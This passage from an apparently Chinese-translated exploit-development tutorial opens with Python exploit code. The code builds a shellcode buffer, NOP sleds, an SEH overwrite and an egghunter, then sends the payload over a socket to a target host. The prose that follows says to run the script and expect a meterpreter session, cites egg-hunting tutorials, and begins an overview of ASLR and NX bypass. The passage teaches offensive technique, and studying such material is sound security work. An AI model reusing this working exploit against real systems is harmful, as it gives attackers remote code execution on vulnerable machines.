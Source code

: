 ```
        buffer += "\xcb\x77\xd7\xba\xcf\xd1\x80\x52\xcd\x04\xe6\xfc"
        buffer += "\x2e\x63\x74\xfa\xd0\xf2\x4d\x70\xe6\x60\xf2\xee"
        buffer += "\x06\x65\xf2\xee\x50\xef\xf2\x86\x04\x4b\xa1\xb3"
        buffer += "\x4b\x46\xd5\x6f\xd9\x69\x8c\xdc\x4a\x02\x32\x3a"
        buffer += "\xbc\x8d\xcd\x69\xbf\xca\x32\xef\x9d\x72\x5b\x0f"
        buffer += "\xa1\x82\x9b\x65\x21\xd3\xf3\x72\x0e\xdc\x33\x7a"
        buffer += "\x85\xb5\x5b\xf1\x4b\x77\xfd\x06\x46\xd9\xa3\x07"
        buffer += "\x64\xc2\xb2\x89\x8b\xf5\xba\x6b\xb0\x23\x83\x19"
        buffer += "\xf1\xf7\xb0\x12\x48\x55\x90\xb8\xb2\xc9\xe2\xe8"
        nop = "\x90" * 301
        tag = "w00tw00t"
        buffer1 = "USV "
        buffer1 += nop * 2 + "\x90" * 360
        buffer1 += nseh + seh # 8
        buffer1 += "\x90" * 6 #
        buffer1 += egghunter
        buffer1 += nop
        buffer1 += tag
        buffer1 += buffer
        buffer1 += "\x90" * (3504 - len(buffer))
        buffer1 += "\r\n\r\n"
        sock=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        connect=sock.connect((target_address,target_port))
        sock.send(buffer1)
        print "Sent!!"
        sock.close()
```

1.  我们继续将其保存为`script.py`并使用`python script.py`运行它。

1.  而且，我们应该有一个等待我们的 meterpreter 会话。

我们编写的利用代码可能无法在每个系统上以完全相同的方式工作，因为有多个依赖项取决于操作系统版本、软件版本等。

# 另请参阅

+   [`www.corelan.be/index.php/2010/01/09/exploit-writing-tutorial-part-8-win32-egg-hunting/`](https://www.corelan.be/index.php/2010/01/09/exploit-writing-tutorial-part-8-win32-egg-hunting/)

+   [`www.fuzzysecurity.com/tutorials/expDev/4.html`](http://www.fuzzysecurity.com/tutorials/expDev/4.html)

# ASLR 和 NX 绕过概述

**地址空间布局随机化**（**ASLR**）于 2001 年由 PaX 项目作为 Linux 补丁引入，并集成到 Windows Vista 和后来的操作系统中。这是一种内存保护，通过随机化可执行文件在内存中加载的位置，可以防止缓冲区溢出。**数据执行防护**（**DEP**）或**不执行**（**NX**）也是在 Windows Vista 上的 Internet Explorer 7 中引入的，它通过阻止从内存中标记为不可执行的代码执行来防止缓冲区溢出。

# 如何做...
